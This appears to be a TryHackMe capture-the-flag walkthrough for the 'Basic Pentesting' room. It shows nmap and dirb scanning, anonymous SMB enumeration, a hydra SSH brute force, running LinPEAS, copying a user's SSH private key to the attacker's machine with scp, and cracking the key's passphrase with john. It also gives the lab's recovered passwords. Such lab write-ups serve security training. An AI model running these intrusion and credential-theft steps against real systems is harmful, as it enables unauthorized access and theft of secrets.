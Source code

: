 # Basic Pentesting

**Room Link:** [https://tryhackme.com/room/basicpentestingjt](https://tryhackme.com/room/basicpentestingjt)



## Scanning

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (6) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (6).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (8).png" alt=""><figcaption></figcaption></figure>



### HTTP port 80

```
dirb http://$VICTIM:80 /usr/share/wordlists/dirb/big.txt
```

<figure><img src="../../.gitbook/assets/image (24) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

## SMB port 139

**Kali**

```
nmap $VICTIM --script=smb-enum*
```

<figure><img src="../../.gitbook/assets/image (8) (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (62) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
smbclient -L //$VICTIM/ -U anonymous
```

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

We found a file that has two possible usernames. In the note above it mentioned someone with J in their name has a weak password.

**Kali**

```
smbclient \\\\$VICTIM\\Anonymous -U anonymous
prompt
mget *
exit
cat staff.txt
```

<figure><img src="../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (28) (2).png" alt=""><figcaption></figcaption></figure>

### SSH port 22

**Kali**

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh jan@$VICTIM
Password: armando
```



### LinPeas

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```



<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (4).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
ls -lah /home/kay/.ssh/
```

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
scp id_rsa root@$KALI:/root/loot
```

It is password protected so we need to try to get the password from john

**Kali**

<pre><code>chmod 400 id_rsa 
<strong>ssh -i id_rsa kay@$VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
/opt/john/ssh2john.py id_rsa > pass_hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt pass_hash.txt
```

<figure><img src="../../.gitbook/assets/image (5) (6).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh -i id_rsa kay@$VICTIM
Password: beeswax
```

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat pass.bak 
```

<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>
